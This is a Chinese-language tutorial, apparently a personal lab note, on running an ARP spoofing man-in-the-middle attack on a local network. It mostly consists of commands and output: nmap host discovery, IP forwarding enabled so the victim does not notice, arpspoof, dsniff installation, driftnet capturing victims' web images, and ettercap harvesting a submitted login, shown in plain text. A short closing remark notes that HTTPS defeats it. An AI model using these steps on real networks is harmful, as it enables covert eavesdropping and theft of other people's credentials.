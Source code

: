 > ## arp 截取web图片与账号密码

* #### 进行 arp 欺骗

```shell
# 扫描同网段的机器
nmap -sP 192.168.10.*

​```result
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 04:59 EDT
Nmap scan report for 192.168.6.2
Host is up (0.00036s latency).
MAC Address: 00:50:56:FF:00:94 (VMware)
Nmap scan report for 192.168.6.136
Host is up (0.00071s latency).
MAC Address: 00:0C:29:86:5C:97 (VMware)
Nmap scan report for 192.168.6.254
Host is up (0.000091s latency).
MAC Address: 00:50:56:EC:33:4B (VMware)
Nmap scan report for 192.168.6.135
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.94 seconds
​```

# arp 欺骗之前必须要开启IP转发, 否则当欺骗成功之后, 目标机会断网, 这样会被对方察觉; 输出1,说明已经成功开启IP转发
# 设置ip转发
sysctl -w net.ipv4.ip_forward=1
cat /proc/sys/net/ipv4/ip_forward

​```result
1
​```

# 查询自己的ip
ifconfig

​```result
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.6.135  netmask 255.255.255.0  broadcast 192.168.6.255
        inet6 fe80::20c:29ff:fe14:4633  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:14:46:33  txqueuelen 1000  (Ethernet)
        RX packets 691734  bytes 757137083 (722.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9398  bytes 639148 (624.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 60  bytes 2676 (2.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 60  bytes 2676 (2.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
​```

# 语法 arpspoof -i <网卡> -t <目标机器IP> <目标机器IP> 
# 目标机器IP 可以是一个ip段 Demo
arpspoof 192.168.6.1 192.168.6.255

​```result
0:c:29:14:46:33 0:0:0:0:0:0 0806 42: arp reply 192.168.6.255 is-at 0:c:29:14:46:33
0:c:29:14:46:33 0:0:0:0:0:0 0806 42: arp reply 192.168.6.255 is-at 0:c:29:14:46:33
0:c:29:14:46:33 0:0:0:0:0:0 0806 42: arp reply 192.168.6.255 is-at 0:c:29:14:46:33
​```

# 此时可以看一下目标主机ARP缓存对比
arp -a

​```result
接口: 192.168.6.136 --- 0x6
  Internet 地址         物理地址              类型
  192.168.6.2           00-50-56-ff-00-94     动态
  192.168.6.135         00-0c-29-14-46-33     动态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.251           01-00-5e-00-00-fb     静态
  224.0.0.252           01-00-5e-00-00-fc     静态
  239.255.255.250       01-00-5e-7f-ff-fa     静态
  255.255.255.255       ff-ff-ff-ff-ff-ff     静态

----------------------old/new----------------------

接口: 192.168.6.136 --- 0x6
  Internet 地址         物理地址              类型
  192.168.6.2           00-50-56-ff-00-94     动态
  192.168.6.135         00-0c-29-14-46-33     动态
  192.168.6.254         00-50-56-ec-33-4b     动态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.251           01-00-5e-00-00-fb     静态
  224.0.0.252           01-00-5e-00-00-fc     静态
  239.255.255.250       01-00-5e-7f-ff-fa     静态
  255.255.255.255       ff-ff-ff-ff-ff-ff     静态
​```
```

* 有部分系统可能没有安装 arpspoof 执行指令时找不到
  * 一般情况
    * sudo apt-get update
    * apt-get install dsniff ssldump
  * 非一般情况
    * cd /etc/apt/
    * sudo cp sources.list sources.list.bb 
    * echo 'dev http://archive.ubuntu.com/ubuntu/ trusty main universe restricted multiverse ' >> sources.list
    * sudo apt-get update
      * 如果更新是出现 由于没有公钥, 无法验证下列签名: NO_PUBKEY 40976EAF437D05B5 NO_PUBKEY 3B4FE6ACC0B21F32 就执行如下指令
        * sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 40976EAF437D058B5
        * sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 3B4FE6ACC0B21F32 
        * sudo apt-get update
    * apt-get install dsniff ssldump
  * arpspoof 安装成功

* #### 开始抓取web图片

```shell
# 在 arpspoof 启动的基础上
# 安装 driftnet
apt-get install driftnet
# 启动监听网卡 语法 driftnet -i <网卡> -d <保存的本地目录> -a # -a后台启动
driftnet -i eth0 -d arpImg -a
```

* #### 开始抓取web提交的账号密码

```shell
# 这条命令表示监控eth0网卡的流量 ettercap 语法 -T 文本模式运行 -q 安静模式 -i 网卡, 后接网卡名
ettercap -Tq -i eth0

​```result
HTTP : 121.41.88.106:80 -> USER: admin  PASS: 123465  INFO: http://www.xnote.cn/                                            
CONTENT: username=admin&password=123465
​```
```

* #### 实战后总结

  * 目标机器被arp欺骗后 google chrome 访问正常的页面会提示不安全的连接
  *  https 类型的连接可以避免: 抓取web图片 与 web 提交的账号密码
